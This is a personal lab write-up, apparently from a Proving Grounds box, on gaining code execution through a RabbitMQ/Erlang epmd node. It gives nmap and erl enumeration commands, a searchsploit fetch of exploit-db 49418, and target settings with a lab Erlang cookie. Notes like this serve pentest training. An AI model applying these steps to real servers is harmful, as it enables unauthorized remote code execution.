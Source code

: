 # RabbitMQ / Erlang Port Dameon

I encountered this on clyde OSPG.

[4369 - Pentesting Erlang Port Mapper Daemon (epmd)](https://book.hacktricks.xyz/network-services-pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#manual)

To exploit this, I had ftp access that allowed me to find the cookie for Erlang at `/var/lib/rabbitmq/.erlang.cookie`. The cookie `.erlang.cookie` is usually located at `~/.erlang.cookie`. AKA the installation directory of rabbitmq/erlang.

![Untitled](RabbitMQ%20Erlang%20Port%20Dameon%20440d4f9ba1074d0d8bebc40f76321c44/Untitled.png)

Then find the port that the erlang node is running on. You can discover this with `nmap`

```bash
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info  192.168.96.68 -oN epmd-info.nmap
```

or you can try the manual way

```bash
erl #Once Erlang is installed this will promp an erlang terminal
1> net_adm:names('<HOST>'). #This will return the listen addresses
```

In my case, it is port 65000

![Untitled](RabbitMQ%20Erlang%20Port%20Dameon%20440d4f9ba1074d0d8bebc40f76321c44/Untitled%201.png)

Get the python script to get code execution from exploit-db

```bash
searchsploit -m multiple/remote/49418.py
```

Then, modify the code to update the target ip and port of the node like this

![Untitled](RabbitMQ%20Erlang%20Port%20Dameon%20440d4f9ba1074d0d8bebc40f76321c44/Untitled%202.png)

```bash
TARGET = "192.168.96.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
CMD = "whoami"
```

Finally, run the python script to execute your commands

# Ignore this:

*****************The following results in code execution of your local machine (not the target machine). Thought I would leave it in in case it is somehow useful to future me*****************

To get code execution (RCE), I did this

```bash
HOME=/ erl -sname anonymous -setcookie JPCGJCAEWHPKKPBXBYYB
(anonymous@kali)3> os:cmd("id").
```

![Untitled](RabbitMQ%20Erlang%20Port%20Dameon%20440d4f9ba1074d0d8bebc40f76321c44/Untitled%203.png)
